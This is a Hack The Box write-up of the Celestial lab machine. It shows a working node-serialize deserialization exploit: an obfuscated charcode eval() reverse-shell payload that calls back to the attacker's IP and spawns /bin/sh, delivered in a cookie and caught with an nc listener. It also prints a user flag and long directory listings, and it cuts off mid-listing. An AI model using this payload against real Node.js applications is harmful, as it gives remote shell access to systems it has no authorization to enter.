

# Celestial - Hack The Box

I was able to get User using Celstial, but I failed to get root. I did not know how to even after consulting the forums.

### Owning User

`NMAP` informed us that port 3000 of the server was open. It was a web server running Node.js Express framework.


The website does not accept any inputs. It simply prints the words `'Hey dummy 2 + 2 is 22'`. But, it contains cookies! It is base64 encoded.




The base64 decoded cookie is...

```
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
```

Say, I change the cookie to ...

```
{"username":"Smarty","country":"Idk Probably Somewhere Smart","city":"SmartTown","num":"5"}
```

... the output is reflected in the screen below.


I ran `DirBuster` to make sure I was not missing any hidden site or file. I did not miss any.

A simple Google search for "Node.js Express framework vuln" revealed [the correct exploit](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/).


I downloaded the Python script to create the reverse shell exploit. My IP address was 10.10.14.35. Port 4000 was arbitrary. 
```
➜  Celestial git:(master) ✗ python nodejsshell.py 10.10.14.35 4000
[+] LHOST = 10.10.14.35
[+] LPORT = 4000
[+] Encoding
eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,48,46,49,52,46,51,53,34,59,10,80,79,82,84,61,34,52,48,48,48,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))
```
```
{"rce":"_$$ND_FUNC$$_function (){ eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,48,46,49,52,46,51,53,34,59,10,80,79,82,84,61,34,52,48,48,48,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}
```

To listen for a connection, I used `nc -l 10.10.14.35 4000`. Then, I ran the website with the cookie containing the exploit.
```
➜  Celestial git:(master) ✗ nc -l 10.10.14.35 4000
Connected!
ls
Desktop
[...]
find . -type f -name "user.txt"
find: ‘./.gvfs’: Permission denied
find: ‘./.cache/dconf’: Permission denied
find: ‘./.dbus’: Permission denied
./Documents/user.txt
cat ./Documents/user.txt
9a093cd22ce86b7f41db4116e80d0b0f
```

The flag for user was `9a093cd22ce86b7f41db4116e80d0b0f`.

### Owning Root

I could not solve root. Meh. But I'll figure it out.

```
ls -l
total 56
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 Desktop
drwxr-xr-x  2 sun  sun  4096 Mar  4 15:08 Documents
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 Downloads
-rw-r--r--  1 sun  sun  8980 Sep 19  2017 examples.desktop
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 Music
drwxr-xr-x 47 root root 4096 Sep 19  2017 node_modules
-rw-r--r--  1 root root   21 Aug 13 07:30 output.txt
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 Pictures
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 Public
-rw-rw-r--  1 sun  sun   870 Sep 20  2017 server.js
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 Templates
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 Videos
```


```
# Edit this file to introduce tasks to be run by cron.
# 
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
# 
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').# 
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
# 
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
# 
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
# 
# For more information see the manual pages of crontab(5) and cron(8)
# 
# m h  dom mon dow   command
*/30 * * * * nodejs /home/sun/server.js >/dev/null 2>&1
```

```
ls -Rla node_modules   
node_modules:
total 188
drwxr-xr-x 47 root root 4096 Sep 19  2017 .
drwxr-xr-x 21 sun  sun  4096 Aug 13 07:27 ..
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 accepts
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 array-flatten
drwxr-xr-x  2 root root 4096 Sep 19  2017 .bin
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 content-disposition
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 content-type
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 cookie
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 cookie-parser
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 cookie-signature
drwxr-xr-x  3 sun  sun  4096 Sep 19  2017 debug
drwxr-xr-x  3 sun  sun  4096 Sep 19  2017 depd
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 destroy
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 ee-first
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 encodeurl
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 escape-html
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 etag
drwxr-xr-x  3 sun  sun  4096 Sep 19  2017 express
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 finalhandler
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 forwarded
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 fresh
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 http-errors
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 inherits
drwxr-xr-x  5 sun  sun  4096 Sep 19  2017 ipaddr.js
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 media-typer
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 merge-descriptors
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 methods
drwxr-xr-x  3 sun  sun  4096 Sep 19  2017 mime
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 mime-db
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 mime-types
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 ms
drwxr-xr-x  3 sun  sun  4096 Sep 19  2017 negotiator
drwxr-xr-x  4 sun  sun  4096 Sep 19  2017 node-serialize
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 on-finished
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 parseurl
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 path-to-regexp
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 proxy-addr
drwxr-xr-x  5 sun  sun  4096 Sep 19  2017 qs
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 range-parser
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 send
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 serve-static
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 setprototypeof
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 statuses
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 type-is
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 unpipe
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 utils-merge
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 vary

node_modules/accepts:
total 40
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 .
drwxr-xr-x 47 root root 4096 Sep 19  2017 ..
-rw-r--r--  1 sun  sun  4639 Aug 22  2017 HISTORY.md
-rw-r--r--  1 sun  sun  5252 Apr  1  2017 index.js
-rw-r--r--  1 sun  sun  1167 Mar 31  2017 LICENSE
-rw-r--r--  1 root root 2932 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun  4130 Apr  1  2017 README.md

node_modules/array-flatten:
total 24
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 .
drwxr-xr-x 47 root root 4096 Sep 19  2017 ..
-rw-r--r--  1 sun  sun  1195 Jul  9  2015 array-flatten.js
-rw-r--r--  1 sun  sun  1103 Mar 15  2014 LICENSE
-rw-r--r--  1 root root 2178 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun  1245 May  9  2015 README.md

node_modules/.bin:
total 8
drwxr-xr-x  2 root root 4096 Sep 19  2017 .
drwxr-xr-x 47 root root 4096 Sep 19  2017 ..
lrwxrwxrwx  1 root root   14 Sep 19  2017 mime -> ../mime/cli.js

node_modules/content-disposition:
total 40
drwxr-xr-x  2 sun  sun   4096 Sep 19  2017 .
drwxr-xr-x 47 root root  4096 Sep 19  2017 ..
-rw-r--r--  1 sun  sun    866 Dec  8  2016 HISTORY.md
-rw-r--r--  1 sun  sun  10399 Dec  8  2016 index.js
-rw-r--r--  1 sun  sun   1089 Sep 19  2014 LICENSE
-rw-r--r--  1 root root  2815 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun   5148 Dec  8  2016 README.md

node_modules/content-type:
total 32
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 .
drwxr-xr-x 47 root root 4096 Sep 19  2017 ..
-rw-r--r--  1 sun  sun   436 Sep 11  2017 HISTORY.md
-rw-r--r--  1 sun  sun  4809 Sep 11  2017 index.js
-rw-r--r--  1 sun  sun  1089 Sep 11  2017 LICENSE
-rw-r--r--  1 root root 2880 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun  2796 Sep 11  2017 README.md

node_modules/cookie:
total 36
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 .
drwxr-xr-x 47 root root 4096 Sep 19  2017 ..
-rw-r--r--  1 sun  sun  2626 May 27  2016 HISTORY.md
-rw-r--r--  1 sun  sun  3969 May 27  2016 index.js
-rw-r--r--  1 sun  sun  1175 May 20  2016 LICENSE
-rw-r--r--  1 root root 2452 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun  8208 May 27  2016 README.md

node_modules/cookie-parser:
total 28
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 .
drwxr-xr-x 47 root root 4096 Sep 19  2017 ..
-rw-r--r--  1 sun  sun  1653 May 27  2016 HISTORY.md
-rw-r--r--  1 sun  sun  3444 Jan  7  2016 index.js
-rw-r--r--  1 sun  sun  1169 Sep 18  2015 LICENSE
-rw-r--r--  1 root root 2684 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun  3535 May 20  2016 README.md

node_modules/cookie-signature:
total 28
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 .
drwxr-xr-x 47 root root 4096 Sep 19  2017 ..
-rw-r--r--  1 sun  sun   695 Feb  3  2015 History.md
-rw-r--r--  1 sun  sun  1230 Feb  3  2015 index.js
-rw-r--r--  1 sun  sun    29 Jan 28  2014 .npmignore
-rw-r--r--  1 root root 2086 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun  1490 Jun 18  2014 Readme.md

node_modules/debug:
total 84
drwxr-xr-x  3 sun  sun   4096 Sep 19  2017 .
drwxr-xr-x 47 root root  4096 Sep 19  2017 ..
-rw-r--r--  1 sun  sun  11620 May 18  2017 CHANGELOG.md
-rw-r--r--  1 sun  sun    321 May 18  2017 component.json
-rw-r--r--  1 sun  sun     46 Dec 25  2016 .coveralls.yml
-rw-r--r--  1 sun  sun    180 Dec 25  2016 .eslintrc
-rw-r--r--  1 sun  sun   1736 Dec 20  2016 karma.conf.js
-rw-r--r--  1 sun  sun   1107 Oct 22  2016 LICENSE
-rw-r--r--  1 sun  sun   1059 Feb 10  2017 Makefile
-rw-r--r--  1 sun  sun     40 Dec 25  2016 node.js
-rw-r--r--  1 sun  sun     72 May 18  2017 .npmignore
-rw-r--r--  1 root root  2791 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun  17918 May 18  2017 README.md
drwxr-xr-x  2 sun  sun   4096 Sep 19  2017 src
-rw-r--r--  1 sun  sun    140 Dec 25  2016 .travis.yml

node_modules/debug/src:
total 36
drwxr-xr-x 2 sun sun 4096 Sep 19  2017 .
drwxr-xr-x 3 sun sun 4096 Sep 19  2017 ..
-rw-r--r-- 1 sun sun 4734 May 18  2017 browser.js
-rw-r--r-- 1 sun sun 4394 May 18  2017 debug.js
-rw-r--r-- 1 sun sun  263 Dec 20  2016 index.js
-rw-r--r-- 1 sun sun 5968 May 18  2017 node.js

node_modules/depd:
total 48
drwxr-xr-x  3 sun  sun   4096 Sep 19  2017 .
drwxr-xr-x 47 root root  4096 Sep 19  2017 ..
-rw-r--r--  1 sun  sun   1950 Jul 27  2017 History.md
-rw-r--r--  1 sun  sun  10620 Jul 27  2017 index.js
drwxr-xr-x  4 sun  sun   4096 Sep 19  2017 lib
-rw-r--r--  1 sun  sun   1094 Feb 12  2017 LICENSE
-rw-r--r--  1 root root  2773 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun  10187 Feb 12  2017 Readme.md

node_modules/depd/lib:
total 16
drwxr-xr-x 4 sun sun 4096 Sep 19  2017 .
drwxr-xr-x 3 sun sun 4096 Sep 19  2017 ..
drwxr-xr-x 2 sun sun 4096 Jul 26  2017 browser
drwxr-xr-x 2 sun sun 4096 Sep 19  2017 compat

node_modules/depd/lib/browser:
total 12
drwxr-xr-x 2 sun sun 4096 Jul 26  2017 .
drwxr-xr-x 4 sun sun 4096 Sep 19  2017 ..
-rw-r--r-- 1 sun sun 1512 Jul 26  2017 index.js

node_modules/depd/lib/compat:
total 20
drwxr-xr-x 2 sun sun 4096 Sep 19  2017 .
drwxr-xr-x 4 sun sun 4096 Sep 19  2017 ..
-rw-r--r-- 1 sun sun 2229 Feb 12  2017 callsite-tostring.js
-rw-r--r-- 1 sun sun  338 Feb 12  2017 event-listener-count.js
-rw-r--r-- 1 sun sun 1421 Jul 26  2017 index.js

node_modules/destroy:
total 24
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 .
drwxr-xr-x 47 root root 4096 Sep 19  2017 ..
-rw-r--r--  1 sun  sun  1043 Jan 13  2016 index.js
-rw-r--r--  1 sun  sun  1099 Aug 14  2014 LICENSE
-rw-r--r--  1 root root 2360 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun  2185 Jan 13  2016 README.md

node_modules/ee-first:
total 24
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 .
drwxr-xr-x 47 root root 4096 Sep 19  2017 ..
-rw-r--r--  1 sun  sun  1684 May 25  2015 index.js
-rw-r--r--  1 sun  sun  1099 Aug 15  2014 LICENSE
-rw-r--r--  1 root root 2361 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun  2617 May 25  2015 README.md

node_modules/encodeurl:
total 28
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 .
drwxr-xr-x 47 root root 4096 Sep 19  2017 ..
-rw-r--r--  1 sun  sun   159 Jun  9  2016 HISTORY.md
-rw-r--r--  1 sun  sun  1584 Jun  9  2016 index.js
-rw-r--r--  1 sun  sun  1089 Jun  9  2016 LICENSE
-rw-r--r--  1 root root 2750 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun  3613 Jun  9  2016 README.md

node_modules/escape-html:
total 24
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 .
drwxr-xr-x 47 root root 4096 Sep 19  2017 ..
-rw-r--r--  1 sun  sun  1362 Aug 31  2015 index.js
-rw-r--r--  1 sun  sun  1157 Aug 31  2015 LICENSE
-rw-r--r--  1 root root 2038 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun   707 Sep  1  2015 Readme.md

node_modules/etag:
total 32
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 .
drwxr-xr-x 47 root root 4096 Sep 19  2017 ..
-rw-r--r--  1 sun  sun  1732 Sep 12  2017 HISTORY.md
-rw-r--r--  1 sun  sun  2479 Sep 12  2017 index.js
-rw-r--r--  1 sun  sun  1094 Feb 18  2017 LICENSE
-rw-r--r--  1 root root 2947 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun  4198 Sep 12  2017 README.md

node_modules/express:
total 140
drwxr-xr-x  3 sun  sun    4096 Sep 19  2017 .
drwxr-xr-x 47 root root   4096 Sep 19  2017 ..
-rw-r--r--  1 sun  sun  103612 Aug  6  2017 History.md
-rw-r--r--  1 sun  sun     224 Jan 15  2017 index.js
drwxr-xr-x  4 sun  sun    4096 Sep 19  2017 lib
-rw-r--r--  1 sun  sun    1249 Jan 15  2017 LICENSE
-rw-r--r--  1 root root   4729 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun    4457 Aug  6  2017 Readme.md

node_modules/express/lib:
total 88
drwxr-xr-x 4 sun sun  4096 Sep 19  2017 .
drwxr-xr-x 3 sun sun  4096 Sep 19  2017 ..
-rw-r--r-- 1 sun sun 14270 Aug  6  2017 application.js
-rw-r--r-- 1 sun sun  2217 Aug  6  2017 express.js
drwxr-xr-x 2 sun sun  4096 Sep 19  2017 middleware
-rw-r--r-- 1 sun sun 12213 Aug  6  2017 request.js
-rw-r--r-- 1 sun sun 25291 Aug  6  2017 response.js
drwxr-xr-x 2 sun sun  4096 Sep 19  2017 router
-rw-r--r-- 1 sun sun  5783 Aug  6  2017 utils.js
-rw-r--r-- 1 sun sun  3158 Aug  6  2017 view.js

node_modules/express/lib/middleware:
total 16
drwxr-xr-x 2 sun sun 4096 Sep 19  2017 .
drwxr-xr-x 4 sun sun 4096 Sep 19  2017 ..
-rw-r--r-- 1 sun sun  853 Aug  6  2017 init.js
-rw-r--r-- 1 sun sun  885 Aug  6  2017 query.js

node_modules/express/lib/router:
total 36
drwxr-xr-x 2 sun sun  4096 Sep 19  2017 .
drwxr-xr-x 4 sun sun  4096 Sep 19  2017 ..
-rw-r--r-- 1 sun sun 14880 Aug  6  2017 index.js
-rw-r--r-- 1 sun sun  3296 Aug  6  2017 layer.js
-rw-r--r-- 1 sun sun  4149 Aug  6  2017 route.js

node_modules/finalhandler:
total 32
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 .
drwxr-xr-x 47 root root 4096 Sep 19  2017 ..
-rw-r--r--  1 sun  sun  3614 Sep 15  2017 HISTORY.md
-rw-r--r--  1 sun  sun  5920 Mar 22  2017 index.js
-rw-r--r--  1 sun  sun  1119 Feb 16  2017 LICENSE
-rw-r--r--  1 root root 2997 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun  4010 Sep 15  2017 README.md

node_modules/forwarded:
total 28
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 .
drwxr-xr-x 47 root root 4096 Sep 19  2017 ..
-rw-r--r--  1 sun  sun   306 Sep 14  2017 HISTORY.md
-rw-r--r--  1 sun  sun  1360 Sep 14  2017 index.js
-rw-r--r--  1 sun  sun  1094 Sep 14  2017 LICENSE
-rw-r--r--  1 root root 2821 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun  1637 Sep 14  2017 README.md

node_modules/fresh:
total 28
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 .
drwxr-xr-x 47 root root 4096 Sep 19  2017 ..
-rw-r--r--  1 sun  sun  1220 Feb 21  2017 HISTORY.md
-rw-r--r--  1 sun  sun  1740 Feb 20  2017 index.js
-rw-r--r--  1 sun  sun  1174 Feb 19  2017 LICENSE
-rw-r--r--  1 root root 2807 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun  3236 Feb 21  2017 README.md

node_modules/http-errors:
total 36
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 .
drwxr-xr-x 47 root root 4096 Sep 19  2017 ..
-rw-r--r--  1 sun  sun  2651 Aug  4  2017 HISTORY.md
-rw-r--r--  1 sun  sun  5758 Feb 13  2017 index.js
-rw-r--r--  1 sun  sun  1168 Feb 12  2017 LICENSE
-rw-r--r--  1 root root 3176 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun  4803 Feb 12  2017 README.md

node_modules/inherits:
total 28
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 .
drwxr-xr-x 47 root root 4096 Sep 19  2017 ..
-rw-r--r--  1 sun  sun   672 May 16  2013 inherits_browser.js
-rw-r--r--  1 sun  sun   192 Sep  7  2016 inherits.js
-rw-r--r--  1 sun  sun   749 Aug 19  2013 LICENSE
-rw-r--r--  1 root root 2134 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun  1625 May 16  2013 README.md

node_modules/ipaddr.js:
total 64
drwxr-xr-x  5 sun  sun  4096 Sep 19  2017 .
drwxr-xr-x 47 root root 4096 Sep 19  2017 ..
-rw-r--r--  1 sun  sun   543 Jun 22  2017 bower.json
-rw-r--r--  1 sun  sun   658 Jun 22  2017 Cakefile
-rw-r--r--  1 sun  sun  8459 Jun 22  2017 ipaddr.min.js
drwxr-xr-x  2 sun  sun  4096 Jun 22  2017 lib
-rw-r--r--  1 sun  sun  1082 Mar 14  2017 LICENSE
-rw-r--r--  1 sun  sun    19 Mar 14  2017 .npmignore
-rw-r--r--  1 root root 2184 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun  8168 Jun 22  2017 README.md
drwxr-xr-x  2 sun  sun  4096 Jun 22  2017 src
drwxr-xr-x  2 sun  sun  4096 Jun 22  2017 test
-rw-r--r--  1 sun  sun    99 Mar 14  2017 .travis.yml

node_modules/ipaddr.js/lib:
total 28
drwxr-xr-x 2 sun sun  4096 Jun 22  2017 .
drwxr-xr-x 5 sun sun  4096 Sep 19  2017 ..
-rw-r--r-- 1 sun sun 16866 Jun 22  2017 ipaddr.js

node_modules/ipaddr.js/src:
total 24
drwxr-xr-x 2 sun sun  4096 Jun 22  2017 .
drwxr-xr-x 5 sun sun  4096 Sep 19  2017 ..
-rw-r--r-- 1 sun sun 16183 Jun 22  2017 ipaddr.coffee

node_modules/ipaddr.js/test:
total 28
drwxr-xr-x 2 sun sun  4096 Jun 22  2017 .
drwxr-xr-x 5 sun sun  4096 Sep 19  2017 ..
-rw-r--r-- 1 sun sun 20223 Jun 22  2017 ipaddr.test.coffee

node_modules/media-typer:
total 32
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 .
drwxr-xr-x 47 root root 4096 Sep 19  2017 ..
-rw-r--r--  1 sun  sun   461 Sep  8  2014 HISTORY.md
-rw-r--r--  1 sun  sun  6375 Sep  8  2014 index.js
-rw-r--r--  1 sun  sun  1089 Sep  8  2014 LICENSE
-rw-r--r--  1 root root 2234 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun  2371 Sep  8  2014 README.md

node_modules/merge-descriptors:
total 28
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 .
drwxr-xr-x 47 root root 4096 Sep 19  2017 ..
-rw-r--r--  1 sun  sun   363 Jan 17  2016 HISTORY.md
-rw-r--r--  1 sun  sun  1215 Jan 17  2016 index.js
-rw-r--r--  1 sun  sun  1167 Jan 17  2016 LICENSE
-rw-r--r--  1 root root 3957 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun  1213 May 21  2015 README.md

node_modules/methods:
total 28
drwxr-xr-x  2 sun  sun  4096 Sep 19  2017 .
drwxr-xr-x 47 root root 4096 Sep 19  2017 ..
-rw-r--r--  1 sun  sun   427 Jan 17  2016 HISTORY.md
-rw-r--r--  1 sun  sun  1040 Jan 17  2016 index.js
-rw-r--r--  1 sun  sun  1180 Jan 17  2016 LICENSE
-rw-r--r--  1 root root 2756 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun  1694 Jan 17  2016 README.md

node_modules/mime:
total 64
drwxr-xr-x  3 sun  sun   4096 Sep 19  2017 .
drwxr-xr-x 47 root root  4096 Sep 19  2017 ..
drwxr-xr-x  2 sun  sun   4096 Sep 19  2017 build
-rwxr-xr-x  1 sun  sun    149 Feb  5  2015 cli.js
-rw-r--r--  1 sun  sun   1075 May 10  2011 LICENSE
-rw-r--r--  1 sun  sun   2671 Feb  5  2015 mime.js
-rw-r--r--  1 sun  sun      0 Feb  6  2015 .npmignore
-rw-r--r--  1 root root  2228 Sep 19  2017 package.json
-rw-r--r--  1 sun  sun   2119 Feb  5  2015 README.md
-rw-r--r--  1 sun  sun  29681 Feb  6  2015 types.json

node_modules/mime/build:
total 16
drwxr-xr-x 2 sun sun 4096 Sep 19  2017 .
drwxr-xr-x 3 sun sun 4096 Sep 19  2017 ..
-rw-r--r-- 1 sun sun  231 Feb  5  2015 build.js
-rw-r--r-- 1 sun sun 2184 Feb  5  2015 test.js

node_modules/mime-db:
total 184
drwxr-xr-x  2 sun  sun    4096 Sep 19  2017 .
